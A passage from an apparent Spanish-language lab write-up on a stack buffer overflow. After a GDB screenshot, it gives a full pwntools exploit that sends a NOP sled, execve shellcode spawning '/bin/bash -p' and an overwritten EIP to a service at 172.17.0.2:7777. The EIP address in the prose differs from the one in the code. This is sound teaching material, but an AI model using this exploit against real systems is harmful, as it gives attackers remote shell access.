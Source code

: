 ![Gdb](images/sender/gdb.png)

Como vemos en la imagen, donde se encuentra el mouse es el EIP y lo que esta marcado los nops, viendo esto podemos hacer que el EIP apunte a la dirección donde comienzan nuestros nops, que seria "0xffffcdd0", solo que esta vez haremos el exploit para que funcione directamente en la máquina victima:

```python
#!/usr/bin/env python3


from pwn import *


def exploit():


    host='172.17.0.2'
    port='7777'

    
    offset = 43

    nops = b"\x90"*offset
    eip = p32(0xffffd310)




    shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70"
    shellcode += b"\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61"
    shellcode += b"\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52"
    shellcode += b"\x51\x53\x89\xe1\xcd\x80"


    
    payload = nops + shellcode + eip


    p = remote(host, port)
    p.sendline(payload)
```